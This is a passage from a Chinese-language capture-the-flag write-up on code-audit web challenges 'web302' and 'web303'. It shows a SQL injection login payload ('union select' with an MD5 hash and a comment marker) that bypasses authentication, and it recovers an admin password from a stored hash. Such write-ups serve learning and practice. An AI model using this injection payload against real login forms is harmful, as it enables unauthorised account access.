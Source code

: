 得到结果为：

```
d9c77c4e454869d5d8da3b4be79694d3
```

重新构建payload:

```
username: ' union select 'd9c77c4e454869d5d8da3b4be79694d3' #
password: 1
```

又进去了

![成功](.\代码审计\web302\flag.png)



### web303

又是数据库，不过这次管理员分出来了。

```php
if(strlen($username)>6){
	die();
}
```

说明username字符不能大于6，这不明摆着写admin吗？

这次给了user数据库，看了一下，就一个user， 序号1， 叫admin，密码加密存着

```sql
INSERT INTO `sds_user` VALUES ('1', 'admin', '27151b7b1ad51a38ea66b1529cde5ee4');
```

这个加密值我就猜admin了，通过本地php环境验证，还真是。

